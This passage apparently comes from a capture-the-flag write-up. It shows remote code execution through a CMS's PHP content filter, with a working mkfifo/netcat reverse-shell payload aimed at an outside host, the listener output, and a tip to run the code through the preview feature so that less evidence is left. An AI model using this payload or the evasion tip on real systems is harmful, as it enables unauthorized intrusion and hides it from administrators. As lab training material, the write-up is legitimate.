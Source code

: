### PHP RCE --\> Shell

I'll create a new article by clicking "Content" -\> "Add content" -\>
"Article". Because I've enabled the PHP filter, one option for "Test
format" is "php", which I'll select, enabling me to add php code. I'll
test it by creating an article that contains `<?php phpinfo(); ?>`. On
hitting "Preview":

![](/img/1531824863447.png)

So get a shell with
`<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.156 9001 >/tmp/f'); ?>`.
On preview:



    root@kali# nc -lnvp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.156] from (UNKNOWN) [10.10.10.102] 43068
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



**OPSEC Note:** You don't need to actually publish any changes in most
CMS systems to get your execution. If there's a preview option, it will
show the code to just you, and still run it. Then, you can leave the
post and not publish, leaving less evidence behind.

With shell, get user.txt:



    $ cd /home/daniel
    $ cat user.txt
    d5111d4f...
